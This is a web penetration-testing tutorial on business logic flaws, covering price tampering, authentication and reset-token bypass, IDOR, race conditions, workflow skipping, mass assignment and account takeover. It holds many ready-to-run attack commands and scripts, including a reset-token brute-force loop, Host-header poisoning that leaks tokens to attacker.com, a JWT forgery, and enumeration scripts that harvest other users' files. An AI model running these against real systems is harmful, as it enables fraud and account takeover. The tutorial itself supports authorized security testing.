

# Business Logic Vulnerability Discovery

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Introduction](#introduction)
2. [Price Manipulation](#price-manipulation)
3. [Authentication Bypass](#authentication-bypass)
4. [IDOR – Insecure Direct Object Reference](#idor--insecure-direct-object-reference)
5. [Race Conditions](#race-conditions)
6. [Workflow Bypass](#workflow-bypass)
7. [Mass Assignment](#mass-assignment)
8. [Account Takeover via Logic Flaws](#account-takeover-via-logic-flaws)
9. [Systematic Testing Decision Tree](#systematic-testing-decision-tree)
10. [OWASP WSTG-BUSL Reference](#owasp-wstg-busl-reference)
11. [Burp Suite Extensions](#burp-suite-extensions)
12. [Testing Checklists](#testing-checklists)
13. [Real-World Case Studies](#real-world-case-studies)

---

## Introduction

Business logic vulnerabilities are flaws in the **design and implementation of an application's workflow**, rather than in its underlying technology. Unlike injection or deserialization bugs, these vulnerabilities arise when an attacker manipulates the legitimate functionality of an application in a way the developers never intended—but which the application happily permits.

### Why Automated Scanners Miss Them

| Scanner Type | What It Finds | What It Misses |
|---|---|---|
| DAST (Burp, OWASP ZAP) | SQLi, XSS, known CVEs | State-dependent logic flaws |
| SAST (Semgrep, CodeQL) | Dangerous function calls | Incorrect business rules |
| SCA (Snyk, Dependabot) | Vulnerable dependencies | Application-specific flows |
| WAF | Payload signatures | Legitimate parameter abuse |

Automated scanners operate on **syntactic patterns** (dangerous function, malformed input). Business logic bugs are **semantic**—the request is syntactically valid, the logic is just wrong. No signature can detect "the application allows a negative quantity order that credits the user's account."

### Why They Matter

- Almost always result in **direct financial loss**, privilege escalation, or data exposure
- Frequently qualify for **critical/high bounty payouts** because impact is demonstrable
- Hard to discover without understanding the **intended business flow first**
- Often persist undetected for years because they leave no anomalous log signatures
- The 2023 Verizon DBIR consistently shows **authentication abuse and privilege misuse** as top breach patterns—business logic is the root cause

### Mindset for Logic Testing

> **Note:** Before testing logic, map the entire application flow. Understand every step, every role, every state transition. Ask: "What does the application *trust* about me at this point?" Then violate that trust.

The core questions:
1. What **assumptions** does this feature make about user behaviour?
2. What happens if I **skip, repeat, or reorder** steps?
3. What **parameters** control pricing, access, or state—and are they server-enforced?
4. What happens at **boundaries**—zero, negative, maximum, overflow values?

---

## Price Manipulation

E-commerce and SaaS platforms are prime targets. The attack surface is any parameter that influences monetary calculation on the **client side** before being sent to the server.

### Negative Quantities

Many shopping carts validate that a quantity is a positive integer on the front end but forget server-side validation. A negative quantity can cause the order total to go negative, effectively crediting a user's account or generating a refund.

```bash
# Original legitimate request captured in Burp
POST /api/cart/add HTTP/1.1
Host: shop.example.com
Content-Type: application/json
Cookie: session=abc123

{"product_id": "LAPTOP-001", "quantity": 1, "price": 999.99}

# Modified request — negative quantity
curl -s -X POST https://shop.example.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id": "LAPTOP-001", "quantity": -1, "price": 999.99}'

# If the cart total goes to -999.99, the server may apply that as a credit
# Follow up by adding a cheap item to bring total above zero for checkout
curl -s -X POST https://shop.example.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id": "PEN-001", "quantity": 1, "price": 0.99}'

curl -s -X POST https://shop.example.com/api/checkout \
  -H "Cookie: session=abc123"
# Expected buggy result: checkout total = -999.00, no payment required
```

### Parameter Tampering — Price, Discount, Total

Intercept checkout POST requests and directly modify the price field. Servers that trust client-submitted prices are vulnerable.

```bash
# Intercept with Burp — modify price parameter
POST /checkout HTTP/1.1
Host: shop.example.com
Content-Type: application/x-www-form-urlencoded

product_id=LAPTOP-001&quantity=1&price=0.01&total=0.01

# Test with curl
curl -s -X POST https://shop.example.com/checkout \
  -d "product_id=LAPTOP-001&quantity=1&price=0.01&total=0.01" \
  -H "Cookie: session=abc123" \
  -v

# JSON body tampering
curl -s -X POST https://shop.example.com/api/order \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"items":[{"id":"LAPTOP-001","qty":1,"unit_price":0.01}],"total":0.01}'
```

> **Warning:** Always test price manipulation in a **dedicated test account**. Completing a fraudulent order on a live production system without authorization is illegal even in a bug bounty context unless explicitly permitted by the program's rules.

### Integer Overflow in Pricing

On systems using 32-bit signed integers for price calculations, multiplying a large quantity by a large price can wrap around to a negative number.

```
Max 32-bit signed integer: 2,147,483,647

quantity = 2,147,483,647
price    = 1 cent ($0.01)
total    = 2,147,483,647 x 1 = 2,147,483,647 cents -> overflows -> wraps to negative
```

```bash
# Test integer overflow in quantity
curl -s -X POST https://shop.example.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id": "PEN-001", "quantity": 2147483647, "price": 0.01}'

# Or with a 64-bit overflow attempt
curl -s -X POST https://shop.example.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id": "PEN-001", "quantity": 9223372036854775807, "price": 0.01}'
```

### Coupon Stacking and Reuse

Test whether:
- The same coupon can be applied multiple times in one session
- A used single-use coupon can be reapplied after removing and re-adding it to the cart
- Coupons from one account can be reused on another

```bash
# Apply coupon once
curl -s -X POST https://shop.example.com/api/coupon/apply \
  -H "Cookie: session=abc123" \
  -d "code=SAVE50"

# Apply the same coupon a second time
curl -s -X POST https://shop.example.com/api/coupon/apply \
  -H "Cookie: session=abc123" \
  -d "code=SAVE50"

# Check if total reflects double discount
curl -s https://shop.example.com/api/cart \
  -H "Cookie: session=abc123"

# Test reuse after cart manipulation — remove item, re-add, apply coupon again
curl -s -X DELETE https://shop.example.com/api/cart/items/LAPTOP-001 \
  -H "Cookie: session=abc123"
curl -s -X POST https://shop.example.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id":"LAPTOP-001","quantity":1}'
curl -s -X POST https://shop.example.com/api/coupon/apply \
  -H "Cookie: session=abc123" \
  -d "code=SAVE50"
```

### Currency Manipulation

Some multi-currency platforms convert prices server-side based on a currency parameter. Test whether changing the currency to a weaker one reduces the final charge.

```bash
# Purchase in USD
curl -s -X POST https://shop.example.com/api/order \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id":"LAPTOP-001","quantity":1,"currency":"USD"}'

# Switch to a lower-value currency mid-flow
curl -s -X POST https://shop.example.com/api/order \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id":"LAPTOP-001","quantity":1,"currency":"IDR"}'
# If the server charges 999 IDR instead of converting from USD, that is ~$0.06
```

### Burp Suite Methodology for Price Manipulation

1. **Proxy** — Enable intercept, add `shop.example.com` to scope
2. **Browse** — Add items to cart, proceed to checkout
3. **Intercept checkout POST** — Identify all price/quantity/total parameters
4. **Burp Repeater** — Modify price fields, replay, check response
5. **Burp Intruder** — Fuzz quantity values: `[-2147483648 to -1, 0, 2147483647]`

```
Burp Intruder payload list for quantity fuzzing:
-2147483648
-1000000
-100
-1
0
1
100
2147483647
9999999999
```

### Price Manipulation Checklist

- [ ] Negative quantity produces negative total
- [ ] Price parameter accepted client-side
- [ ] Discount/coupon can be stacked
- [ ] Single-use coupon can be reused
- [ ] Integer overflow wraps total to negative
- [ ] Currency parameter changes actual charged amount
- [ ] Free trial converted to paid without payment capture

---

## Authentication Bypass

Authentication logic flaws allow attackers to gain access to accounts or protected areas without valid credentials.

### Forced Browsing

Direct access to URLs that should only be reachable after authentication.

```bash
# Check if /dashboard is accessible without a session cookie
curl -s -o /dev/null -w "%{http_code}" https://app.example.com/dashboard
# 200 = vulnerable, 302/401/403 = likely protected

# Check admin panel
curl -s -o /dev/null -w "%{http_code}" https://app.example.com/admin
curl -s -o /dev/null -w "%{http_code}" https://app.example.com/admin/users
curl -s -o /dev/null -w "%{http_code}" https://app.example.com/api/v1/admin/config

# Use feroxbuster for forced browsing enumeration
feroxbuster -u https://app.example.com \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -C 401,403 \
  --cookies "session=" \
  -t 50

# Or ffuf
ffuf -u https://app.example.com/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -fc 404 \
  -H "Cookie: session="
```

### Step Skipping in Multi-Step Authentication

Multi-factor authentication or registration wizards often have steps 1 to 2 to 3. Test whether step 3 can be accessed after only completing step 1.

```bash
# Step 1: Submit username/password
curl -s -X POST https://app.example.com/auth/login \
  -d "username=victim@example.com&password=wrongpassword" \
  -c cookies.txt -b cookies.txt -L

# Step 2 would normally require valid credentials — skip directly to step 3
curl -s -X GET https://app.example.com/auth/mfa \
  -b cookies.txt

# Or submit MFA step with an empty token
curl -s -X POST https://app.example.com/auth/mfa/verify \
  -d "token=" \
  -b cookies.txt -c cookies.txt -L

# Try accessing the authenticated dashboard directly after step 1
curl -s https://app.example.com/dashboard \
  -b cookies.txt \
  -w "\nHTTP Status: %{http_code}\n"
```

### Password Reset Flaws

#### Token Predictability

```bash
# Request two password resets in quick succession, compare tokens
# Token 1:
curl -s -X POST https://app.example.com/auth/forgot-password \
  -d "email=test1@attacker.com"
# Token 2:
curl -s -X POST https://app.example.com/auth/forgot-password \
  -d "email=test2@attacker.com"

# If tokens are sequential integers or timestamp-based, they are predictable
# e.g., token=1689345600001 vs token=1689345600002
# Brute force a victim's token with Burp Intruder or a script

# Brute force numeric token (4-6 digit OTP with no rate limiting)
for i in $(seq -f "%06g" 0 999999); do
  result=$(curl -s -o /dev/null -w "%{http_code}" \
    -X POST https://app.example.com/auth/reset-verify \
    -d "token=$i&email=victim@example.com")
  if [ "$result" == "302" ] || [ "$result" == "200" ]; then
    echo "[+] Valid token found: $i"
    break
  fi
done
```

#### Host Header Injection in Password Reset

```bash
# Normal reset email links to: https://app.example.com/reset?token=XYZ
# Inject attacker-controlled host header to leak token via reset link

curl -s -X POST https://app.example.com/auth/forgot-password \
  -H "Host: attacker.com" \
  -d "email=victim@example.com"

# Variants: X-Forwarded-Host, X-Forwarded-For, X-Original-URL
curl -s -X POST https://app.example.com/auth/forgot-password \
  -H "Host: app.example.com" \
  -H "X-Forwarded-Host: attacker.com" \
  -d "email=victim@example.com"

# The reset link in the victim's email becomes:
# https://attacker.com/reset?token=SECRETTOKEN
# Attacker reads token from access logs
```

#### No Token Expiry

```bash
# Request reset token, do not use it immediately
# 24 hours later, test if token is still valid
curl -s -X POST https://app.example.com/auth/reset-password \
  -d "token=OLD_TOKEN_FROM_24H_AGO&password=NewPass123!"
```

### OAuth Misconfiguration

```bash
# Test open redirect in redirect_uri
curl -v "https://app.example.com/oauth/authorize?\
client_id=CLIENT_ID\
&redirect_uri=https://attacker.com\
&response_type=code\
&scope=openid+profile+email"

# Test redirect_uri path traversal
curl -v "https://app.example.com/oauth/authorize?\
client_id=CLIENT_ID\
&redirect_uri=https://app.example.com/callback%2F..%2F..%2Fattacker-controlled\
&response_type=code"

# Test CSRF on OAuth callback (missing state parameter)
curl -v "https://app.example.com/oauth/callback?code=STOLEN_CODE"
# If no state validation, attacker can force victim to link their account
```

### JWT Manipulation

```bash
# Decode a JWT (base64 decode each part)
JWT="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0Iiwicm9sZSI6InVzZXIifQ.SIGNATURE"
echo $JWT | cut -d'.' -f2 | base64 -d 2>/dev/null | python3 -m json.tool

# Test alg:none attack
# Header: {"alg":"none","typ":"JWT"}
# Payload: {"sub":"1234","role":"admin"}
# Signature: (empty)
HEADER=$(echo -n '{"alg":"none","typ":"JWT"}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
PAYLOAD=$(echo -n '{"sub":"1234","role":"admin","iat":9999999999}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
NONE_JWT="${HEADER}.${PAYLOAD}."

curl -s https://app.example.com/api/admin \
  -H "Authorization: Bearer $NONE_JWT"

# Test RS256 to HS256 key confusion
# If server uses RS256 with public key K, try signing with HS256 using K as secret
# Use jwt_tool for this:
python3 jwt_tool.py "$JWT" -X k -pk server_public_key.pem

# Test weak HS256 secret brute force
hashcat -a 0 -m 16500 "$JWT" /usr/share/wordlists/rockyou.txt
```

---

## IDOR – Insecure Direct Object Reference

IDOR occurs when an application exposes a direct reference to an internal object (database record, file, account) and fails to verify the requesting user is authorized to access that specific object.

### Horizontal vs Vertical Privilege Escalation

| Type | Description | Example |
|---|---|---|
| Horizontal | Access another user's data at same privilege level | User A accesses User B's invoices |
| Vertical | Access resources requiring higher privileges | Regular user accesses admin functions |
| Combined | Horizontal access that grants vertical escalation | Access support ticket containing admin reset link |

### Parameter Types Vulnerable to IDOR

```
Numeric IDs:    /api/invoices/1042
                /profile?user_id=9981
GUIDs:          /documents/550e8400-e29b-41d4-a716-446655440000
Filenames:      /uploads/report_john_2024.pdf
Hashes:         /share/d8e8fca2dc0f896fd7cb4cb0031ba249
Object names:   /config?profile=default
                /admin?view=user_john
```

### IDOR Testing with Burp Suite

```
1. Log in as User A (attacker-controlled account)
2. Perform action that generates a resource reference (order, invoice, profile)
3. Note the object reference: /api/orders/10042
4. Send request to Burp Repeater
5. Change 10042 to 10041, 10040, ... (enumerate neighbours)
6. Log in as User B (second attacker-controlled account)
7. Note User B's resource reference: /api/orders/10099
8. In Repeater with User A's session, request /api/orders/10099
9. If User A receives User B's data — IDOR confirmed
```

```bash
# Horizontal IDOR — enumerate user profiles
for user_id in $(seq 1000 1100); do
  result=$(curl -s -o /dev/null -w "%{http_code}" \
    https://app.example.com/api/users/$user_id/profile \
    -H "Cookie: session=ATTACKER_SESSION")
  if [ "$result" == "200" ]; then
    echo "[+] Accessible: /api/users/$user_id/profile"
    curl -s https://app.example.com/api/users/$user_id/profile \
      -H "Cookie: session=ATTACKER_SESSION" >> idor_results.txt
  fi
done

# IDOR on file download endpoint
curl -s https://app.example.com/download?file=invoice_10042.pdf \
  -H "Cookie: session=ATTACKER_SESSION" \
  -o invoice_10042.pdf

curl -s https://app.example.com/download?file=invoice_10041.pdf \
  -H "Cookie: session=ATTACKER_SESSION" \
  -o invoice_10041.pdf
```

### Blind IDOR vs Direct IDOR

| Type | Description | Detection Method |
|---|---|---|
| Direct IDOR | Response contains the accessed object | Read response body |
| Blind IDOR | No content returned but action performed | Side-channel: check email, check another account |

```bash
# Blind IDOR — delete another user's resource (no content response)
curl -s -X DELETE https://app.example.com/api/posts/5512 \
  -H "Cookie: session=ATTACKER_SESSION" \
  -w "HTTP %{http_code}\n"

# Then verify deletion as victim (use a separate session)
curl -s https://app.example.com/api/posts/5512 \
  -H "Cookie: session=VICTIM_SESSION"
# 404 confirms blind IDOR — attacker deleted victim's resource
```

### IDOR in APIs

REST APIs frequently expose IDOR through route parameters, query parameters, and request bodies.

```bash
# REST API IDOR — access another account's settings
curl -s https://api.example.com/v1/accounts/ACC-8821/settings \
  -H "Authorization: Bearer ATTACKER_JWT" \
  | python3 -m json.tool

curl -s https://api.example.com/v1/accounts/ACC-8820/settings \
  -H "Authorization: Bearer ATTACKER_JWT" \
  | python3 -m json.tool

# GraphQL IDOR — manipulate node ID
curl -s -X POST https://api.example.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ATTACKER_JWT" \
  -d '{"query":"{ user(id: \"USER_VICTIM_ID\") { email phone address creditCards { last4 } } }"}'

# IDOR via request body parameter
curl -s -X GET https://api.example.com/v2/reports \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ATTACKER_JWT" \
  -d '{"owner_id": "VICTIM_USER_ID", "type": "financial"}'
```

### IDOR in File Uploads / Downloads

```bash
# Access another user's uploaded document by guessing filename pattern
curl -s "https://app.example.com/files/user_10041_passport.jpg" \
  -H "Cookie: session=ATTACKER_SESSION" \
  -o victim_passport.jpg

# UUID-based but predictable
curl -s "https://app.example.com/files/2024/01/15/report.pdf" \
  -H "Cookie: session=ATTACKER_SESSION"

# Path traversal variant of IDOR
curl -s "https://app.example.com/download?file=../10041/private.pdf" \
  -H "Cookie: session=ATTACKER_SESSION"
```

---

## Race Conditions

A race condition (also known as TOCTOU — Time of Check to Time of Use) occurs when a system performs a check and then takes an action, but another operation modifies the state between those two steps.

### The TOCTOU Pattern

```
Thread 1:                          Thread 2:
CHECK: balance = $100, enough?
                                   CHECK: balance = $100, enough?
USE:  deduct $100 -> balance = $0
                                   USE:  deduct $100 -> balance = -$100 (bug!)
```

### Gift Card Race Condition

```bash
# Apply gift card code simultaneously from two sessions
# Legitimate flow: GC-12345 has $50 value, should only apply once

apply_gift_card() {
  curl -s -X POST https://shop.example.com/api/giftcard/redeem \
    -H "Content-Type: application/json" \
    -H "Cookie: session=$1" \
    -d '{"code":"GC-12345"}' \
    -w "\nHTTP: %{http_code}\n"
}

# Fire 10 concurrent requests in background
for i in {1..10}; do
  apply_gift_card "SESSION_TOKEN" &
done
wait

# Multiple 200 responses indicate race condition — balance credited multiple times
```

### Balance Race Condition

```bash
# Simultaneously withdraw from two devices with the same account balance

withdraw() {
  curl -s -X POST https://bank.example.com/api/withdraw \
    -H "Authorization: Bearer TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"amount": 100, "account": "ACC-001"}' \
    -w " | Status: %{http_code}\n"
}

export -f withdraw
# GNU parallel — 20 simultaneous requests
parallel --jobs 20 withdraw ::: $(seq 1 20)
```

### Like / Vote Race Condition

```bash
# Many apps limit users to one like/vote per item but have a race condition

VOTE_URL="https://app.example.com/api/posts/9981/like"
SESSION="session=USER_SESSION"

for i in {1..50}; do
  curl -s -X POST "$VOTE_URL" \
    -H "Cookie: $SESSION" &
done
wait

# Check current like count
curl -s "https://app.example.com/api/posts/9981" \
  -H "Cookie: $SESSION" \
  | python3 -c "import sys,json; d=json.load(sys.stdin); print('Likes:', d['likes'])"
```

### Testing with Burp Suite Turbo Intruder

Turbo Intruder is a Burp extension for high-speed, concurrent request attacks. Save the following script in Turbo Intruder:

```python
# Turbo Intruder script for race condition testing
# Right-click target request -> Extensions -> Turbo Intruder -> Send to Turbo Intruder

def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=20,
        requestsPerConnection=1,
        pipeline=False
    )

    # Queue 20 identical requests to fire simultaneously
    for i in range(20):
        engine.queue(target.req, str(i))

    # Use gate to release all requests at same time (last-byte sync)
    engine.openGate('race1')

def handleResponse(req, interesting):
    # Flag responses that differ from the expected "already used" response
    if req.status == 200 and 'success' in req.response:
        table.add(req)
```

### Python Script for Race Condition Testing

```python
#!/usr/bin/env python3
"""
race_test.py -- Generic race condition tester
Usage: python3 race_test.py
"""

import threading
import requests
import time

TARGET_URL = "https://shop.example.com/api/giftcard/redeem"
SESSION_COOKIE = "session=YOUR_SESSION_COOKIE"
PAYLOAD = {"code": "GC-12345"}
THREADS = 20

results = []
lock = threading.Lock()

def send_request(thread_id):
    try:
        resp = requests.post(
            TARGET_URL,
            json=PAYLOAD,
            headers={"Cookie": SESSION_COOKIE},
            timeout=10
        )
        with lock:
            results.append({
                "thread": thread_id,
                "status": resp.status_code,
                "body": resp.text[:200]
            })
    except Exception as e:
        with lock:
            results.append({"thread": thread_id, "error": str(e)})

# Sync: create all threads, then release simultaneously
threads = []
for i in range(THREADS):
    t = threading.Thread(target=send_request, args=(i,))
    threads.append(t)

print(f"[*] Launching {THREADS} concurrent requests...")
start = time.time()
for t in threads:
    t.start()
for t in threads:
    t.join()
elapsed = time.time() - start

print(f"[*] All requests completed in {elapsed:.3f}s")
successes = [r for r in results if r.get("status") == 200]
print(f"[+] Successful responses (200): {len(successes)}/{THREADS}")
if len(successes) > 1:
    print("[!!!] Potential race condition — multiple success responses!")
for r in results:
    print(f"  Thread {r.get('thread')}: HTTP {r.get('status')} | {r.get('body','')[:80]}")
```

### Race Condition Checklist

- [ ] Gift card / promo code applied multiple times
- [ ] Withdrawal/spend exceeds available balance
- [ ] Like/vote/rate counted more than once per user
- [ ] File deleted and re-accessed simultaneously
- [ ] Account creation email verification bypass via concurrent unverified logins
- [ ] Referral bonus credited multiple times

---

## Workflow Bypass

Modern applications enforce multi-step workflows: checkout, registration, subscription activation, KYC verification. Logic flaws allow skipping or reordering these steps.

### Multi-Step Process Skipping

```bash
# E-commerce: Step 1 (cart) -> Step 2 (shipping) -> Step 3 (payment) -> Step 4 (confirm)
# Bypass: skip directly to Step 4 after Step 1

# Step 1 — add to cart (legitimate)
curl -s -X POST https://shop.example.com/checkout/start \
  -H "Cookie: session=abc123" \
  -d "cart_id=CART-9921" -c cookies.txt -b cookies.txt

# Skip steps 2 and 3 — POST directly to step 4
curl -s -X POST https://shop.example.com/checkout/confirm \
  -H "Cookie: session=abc123" \
  -b cookies.txt \
  -d "cart_id=CART-9921&skip_payment=true"

# Check order status — was the order placed without payment?
curl -s https://shop.example.com/api/orders/latest \
  -b cookies.txt
```

### E-Commerce Order Workflow Bypass

A common pattern: the application stores workflow state in a session cookie or hidden form field. Modifying this state allows skipping to checkout.

```bash
# Intercept and decode the workflow cookie
# Original: step=2; payment_verified=false; cart_id=CART-9921

# Forge the cookie to claim payment is complete
curl -s -X POST https://shop.example.com/checkout/complete \
  -H "Cookie: session=abc123; step=4; payment_verified=true; cart_id=CART-9921" \
  -d "confirm=1" \
  -v

# Test with a modified hidden form field
curl -s -X POST https://shop.example.com/checkout/complete \
  -H "Cookie: session=abc123" \
  -d "confirm=1&payment_status=success&txn_id=fake123&step=4"
```

### SaaS Trial Workflow Bypass

```bash
# Standard flow: register -> verify email -> start trial -> trial expires -> pay to continue

# Test: Can trial features be accessed after trial expiry by replaying pre-expiry requests?
curl -s https://app.example.com/api/premium/feature \
  -H "Authorization: Bearer EXPIRED_TRIAL_JWT"

# Test: Can payment step be skipped when upgrading from trial?
curl -s -X POST https://app.example.com/api/subscription/upgrade \
  -H "Authorization: Bearer TRIAL_JWT" \
  -H "Content-Type: application/json" \
  -d '{"plan":"enterprise","payment_confirmed":true,"skip_billing":true}'

# Test: Downgrade to free mid-cycle then upgrade back — does billing reset?
curl -s -X POST https://app.example.com/api/subscription/downgrade \
  -H "Authorization: Bearer PAID_JWT" \
  -d '{"plan":"free"}'

curl -s -X POST https://app.example.com/api/subscription/upgrade \
  -H "Authorization: Bearer PAID_JWT" \
  -H "Content-Type: application/json" \
  -d '{"plan":"enterprise","promo":"FREETRIAL2024"}'
```

### Workflow Bypass Checklist

- [ ] Can step N be accessed without completing step N-1?
- [ ] Is workflow state stored client-side (cookie, hidden field, JWT claim)?
- [ ] Can the confirmation step be replayed after cancellation?
- [ ] Can a free-tier user access paid-tier endpoints by manipulating plan parameter?
- [ ] Does the app enforce workflow order server-side or only via front-end redirects?

---

## Mass Assignment

Mass assignment occurs when an application binds user-supplied input directly to internal objects (database models, ORM entities) without filtering which fields are permitted. Attackers can set fields that were never intended to be user-controlled.

### How It Works

```
Intended user input:   { "name": "Alice", "email": "alice@example.com" }
Actual binding:        User.update(request.body)  # binds ALL fields
Attacker sends:        { "name": "Alice", "email": "alice@example.com", "role": "admin", "isAdmin": true }
Result:                User is promoted to admin
```

### Role Elevation via Mass Assignment

```bash
# Registration endpoint — try injecting role/admin fields
curl -s -X POST https://app.example.com/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "attacker",
    "email": "attacker@evil.com",
    "password": "Password123!",
    "role": "admin",
    "isAdmin": true,
    "is_admin": true,
    "admin": true,
    "userType": "administrator",
    "permissions": ["read","write","delete","admin"],
    "verified": true,
    "email_verified": true
  }'

# Profile update endpoint
curl -s -X PUT https://app.example.com/api/users/me \
  -H "Authorization: Bearer ATTACKER_JWT" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Attacker",
    "role": "admin",
    "subscription_tier": "enterprise",
    "credits": 999999,
    "account_balance": 1000000
  }'

# Check if role was elevated
curl -s https://app.example.com/api/users/me \
  -H "Authorization: Bearer ATTACKER_JWT" \
  | python3 -m json.tool
```

### Mass Assignment in REST APIs

```bash
# Look for fields in API documentation or source JavaScript
# Common sensitive fields to inject:
# role, isAdmin, admin, is_staff, user_type, account_type
# verified, email_verified, phone_verified, kyc_status
# credits, balance, subscription, plan, tier
# created_at, updated_at (timestamp manipulation)
# id, user_id (ID tampering)
# password_hash (direct hash injection)

# Spring Boot / Jackson — test unexposed fields
curl -s -X PATCH https://api.example.com/v1/users/me \
  -H "Authorization: Bearer TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"name":"test","role":"ROLE_ADMIN","authorities":["ROLE_ADMIN","ROLE_SUPERUSER"]}'

# Rails strong parameters bypass (if params.permit! is used)
curl -s -X PUT https://api.example.com/users/profile \
  -H "Authorization: Bearer TOKEN" \
  -d "user[name]=test&user[admin]=1&user[role]=admin&user[credits]=50000"
```

### Mass Assignment in GraphQL

```bash
# GraphQL mutations often expose full type fields
curl -s -X POST https://api.example.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer TOKEN" \
  -d '{
    "query": "mutation { updateProfile(input: { name: \"Attacker\", role: \"admin\", isAdmin: true, subscriptionTier: \"enterprise\" }) { id name role subscriptionTier } }"
  }'

# Introspect to discover all mutable fields
curl -s -X POST https://api.example.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer TOKEN" \
  -d '{"query":"{ __type(name: \"UserInput\") { inputFields { name type { name } } } }"}'
```

### Mass Assignment Checklist

- [ ] Registration endpoint accepts role/isAdmin fields
- [ ] Profile update endpoint accepts privilege-related fields
- [ ] API allows updating `id`, `user_id`, or `account_id`
- [ ] Financial fields (balance, credits) writable by user
- [ ] `verified` or `kyc_status` writable without verification
- [ ] GraphQL mutation accepts unexposed input fields

---

## Account Takeover via Logic Flaws

### Password Reset Poisoning (Full Flow)

```bash
# 1. Attacker requests password reset for victim
curl -s -X POST https://app.example.com/auth/forgot-password \
  -H "Host: attacker.com" \
  -H "Content-Type: application/json" \
  -d '{"email":"victim@example.com"}'

# 2. Victim receives email with link: https://attacker.com/reset?token=SECRET
# 3. Victim clicks link, token is logged on attacker's server
# 4. Attacker uses the token to reset the victim's password
curl -s -X POST https://app.example.com/auth/reset-password \
  -d "token=SECRET&password=AttackerControlled123!"

# Alternative via X-Forwarded-Host
curl -s -X POST https://app.example.com/auth/forgot-password \
  -H "X-Forwarded-Host: attacker.com" \
  -d "email=victim@example.com"
```

### Username Confusion / Account Collision

```bash
# Many systems normalize usernames before lookup but not before creation

# Register "admin " (with trailing space) — may match "admin" in login
curl -s -X POST https://app.example.com/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"admin ","email":"attacker@evil.com","password":"Pass123!"}'

# Test Unicode normalization: "adm\u0131n" vs "admin" after NFKC normalization
curl -s -X POST https://app.example.com/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"adm\u0131n","email":"attacker@evil.com","password":"Pass123!"}'

# Case sensitivity: register "Admin" if "admin" exists
curl -s -X POST https://app.example.com/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"Admin","email":"attacker@evil.com","password":"Pass123!"}'

# Login as "Admin" — does the system log in as the existing "admin"?
curl -s -X POST https://app.example.com/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"Admin","password":"Pass123!"}'
```

### Response Manipulation

```bash
# Intercept failed login response and modify it in Burp to appear as success
# Normal failed response:
# HTTP/1.1 401 Unauthorized
# {"success":false,"message":"Invalid credentials"}

# Modified response (via Burp Match and Replace or Repeater):
# HTTP/1.1 200 OK
# {"success":true,"message":"Login successful","token":"..."}

# Test: does the application client-side redirect or server-side validate?
# If the client processes the response and redirects based on "success":true
# without server-side session establishment, response manipulation works

# Burp Match and Replace rule:
# Match: {"success":false}
# Replace: {"success":true}
```

### Account Linking Abuse

```bash
# Many apps allow linking social accounts (Google, GitHub) to existing accounts

# Test: Can you link an OAuth provider to an existing account without
# re-authenticating the existing account?
curl -s -X POST https://app.example.com/api/auth/link/google \
  -H "Authorization: Bearer ATTACKER_JWT" \
  -H "Content-Type: application/json" \
  -d '{"google_token":"GOOGLE_TOKEN_WITH_VICTIM_EMAIL"}'

# If the app links by email match and does not require confirmation
# from the existing account, account takeover is achieved
```

---

## Systematic Testing Decision Tree



---

## OWASP WSTG-BUSL Reference

| Test ID | Test Name | Vulnerability Class Covered |
|---|---|---|
| WSTG-BUSL-01 | Test Business Logic Data Validation | Price tampering, negative values, integer overflow |
| WSTG-BUSL-02 | Test Ability to Forge Requests | Forced browsing, parameter injection |
| WSTG-BUSL-03 | Test Integrity Checks | Checksum bypass, order total manipulation |
| WSTG-BUSL-04 | Test for Process Timing | Race conditions, TOCTOU |
| WSTG-BUSL-05 | Test Number of Times a Function Can Be Used | Coupon reuse, gift card stacking |
| WSTG-BUSL-06 | Testing for the Circumvention of Work Flows | Checkout bypass, MFA step skipping |
| WSTG-BUSL-07 | Test Defenses Against Application Misuse | Brute force, rate limit bypass |
| WSTG-BUSL-08 | Test Upload of Unexpected File Types | Malicious file upload, MIME bypass |
| WSTG-BUSL-09 | Test Upload of Malicious Files | Web shell, polyglot files |

> **Note:** The full OWASP Web Security Testing Guide is available at https://owasp.org/www-project-web-security-testing-guide/. The BUSL section is essential reading before any logic testing engagement.

---

## Burp Suite Extensions

| Extension | Source | Use Case |
|---|---|---|
